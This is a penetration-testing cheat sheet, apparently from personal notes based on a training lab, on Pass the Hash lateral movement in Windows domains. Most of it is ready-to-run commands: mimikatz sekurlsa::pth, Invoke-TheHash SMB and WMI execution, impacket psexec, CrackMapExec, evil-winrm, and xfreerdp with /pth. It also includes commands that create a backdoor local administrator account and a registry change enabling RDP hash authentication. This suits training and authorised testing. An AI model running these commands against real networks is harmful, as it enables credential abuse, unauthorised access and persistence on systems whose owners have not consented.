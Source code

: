 ```yaml
---
title: Pass The Hash
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - windows
  - lateral movement
---
```

# Pass The Hash

A [Pass the Hash (PtH)](https://attack.mitre.org/techniques/T1550/002/) attack is a technique where an attacker uses a password hash instead of the plain text password for authentication. With NTLM, passwords stored on the server and domain controller are not "salted," which means that an adversary with a password hash can authenticate a session without knowing the original password.

The attacker must have administrative privileges or particular privileges on the target machine to obtain a password hash. Hashes can be obtained in several ways, including:

- Dumping the local SAM database from a compromised host.
- Extracting hashes from the NTDS database (ntds.dit) on a Domain Controller.
- Pulling the hashes from memory (lsass.exe).



## Pass the Hash with Mimikatz (Windows)

see [mimikatz](mimikatz.md)

```powershell
# Pass The Hash attack in windows:
# 1. Run mimikatz
mimikatz.exe privilege::debug "sekurlsa::pth /user:<username> /rc4:<NTLM hash> /domain:<DOMAIN> /run:<Command>" exit
# sekurlsa::pth is a module that allows us to perform a Pass the Hash attack by starting a process using the hash of the user's password
# /user: the user we want to impersonate
# /rc4:<NTLM hash>: /rc4 or /NTLM - NTLM hash of the user's password.
# /run:<Command>: For example /run:cmd.exe

# 2. After that, we can use cmd.exe to execute commands in the user's context. 

# Example:
# .\mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe" exit

```


## Pass the Hash with PowerShell Invoke-TheHash (Windows)

[See Powershell Invoke-TheHash](invoke-the-hash.md). This tool is a collection of PowerShell functions for performing Pass the Hash attacks with WMI and SMB. WMI and SMB connections are accessed through the .NET TCPClient. Authentication is performed by passing an NTLM hash into the NTLMv2 authentication protocol. 

Local administrator privileges are not required client-side, but the user and hash we use to authenticate need to have administrative rights on the target computer.

When using Invoke-TheHash, we have two options: SMB or WMI command execution.

```powershell
cd C:\tools\Invoke-TheHash\

Import-Module .\Invoke-TheHash.psd1
```


### Invoke-TheHash with SMB

```powershell
Invoke-SMBExec -Target $ip -Domain <DOMAIN> -Username <USERNAME> -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose
# Command to execute on the target. If a command is not specified, the function will check to see if the username and hash have access to WMI on the target.
# we can execute `Invoke-TheHash` to execute our PowerShell reverse shell script in the target computer.

# Example:
# Invoke-SMBExec -Target 172.16.1.10 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose
```

[How to generate a reverse shell](reverse-shells.md).

### Invoke-TheHash with WMI

```powershell
Import-Module .\Invoke-TheHash.psd1

Invoke-WMIExec -Target $machineName -Domain <DOMAIN> -Username <USERNAME> -Hash 64F12CDDAA88057E06A81B54E73B949B -Command  "net user mark Password123 /add && net localgroup administrators mark /add" 

# Example:
# Invoke-WMIExec -Target 172.16.1.10 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose
```

[How to generate a reverse shell](reverse-shells.md).


## Pass the Hash with Impacket (Linux)

### Pass the Hash with Impacket PsExec

```bash
impacket-psexec <username>@$ip -hashes :30B3783CE2ABF1AF70F77D0660CF3453
```

### Pass the Hash with impacket-wmiexec

Download from: [https://github.com/fortra/impacket/blob/master/examples/wmiexec.py](https://github.com/fortra/impacket/blob/master/examples/wmiexec.py).

```shell-session
impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453
```


### Pass the Hash with  impacket-atexec

Download from:  [https://github.com/SecureAuthCorp/impacket/blob/master/examples/atexec.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/atexec.py)


### Pass the Hash with  impacket-smbexec

Download from: [https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py)


## Pass the Hash with CrackMapExec (Linux)

See [CrackMapExec](crackmapexec.md)

```powershell

# Using a hash instead of a password, to authenticate ourselves
crackmapexec smb $ip -u <username> -H <hash> -d <DOMAIN>

# Execute commands with flag -x
crackmapexec smb $ip/24 -u <Administrator> -d . -H <hash> -x whoami
```


## Pass the Hash with evil-winrm (Linux)

See [evil-winrm](evil-winrm.md).

If SMB is blocked or we don't have administrative rights, we can use this alternative protocol to connect to the target machine.

```bash
evil-winrm -i $ip -u <username> -H <hash>
```


## Pass the Hash with RDP (Linux)

```bash
xfreerdp [/d:domain] /u:<username> /pth:<hash> /v:$ip
# /pth:<hash>   Pass the hash

# Example:
# xfreerdp  /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B

```

**Restricted Admin Mode**, which is disabled by default, should be enabled on the target host; otherwise, you will be presented with an error. This can be enabled by adding a new registry key `DisableRestrictedAdmin` (REG_DWORD) under `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa` with the value of 0. It can be done using the following command:

```powershell
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

Once the registry key is added, we can use xfreerdp with the option /pth to gain RDP access.


## UAC Limits Pass the Hash for Local Accounts

UAC (User Account Control) limits local users' ability to perform remote administration operations. When the registry key `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy` is set to 0, it means that the built-in local admin account (RID-500, "Administrator") is the only local account allowed to perform remote administration tasks. Setting it to 1 allows the other local admins as well.

>Note: There is one exception, if the registry key FilterAdministratorToken (disabled by default) is enabled (value 1), the RID 500 account (even if it is renamed) is enrolled in UAC protection. This means that remote PTH will fail against the machine when using that account. ´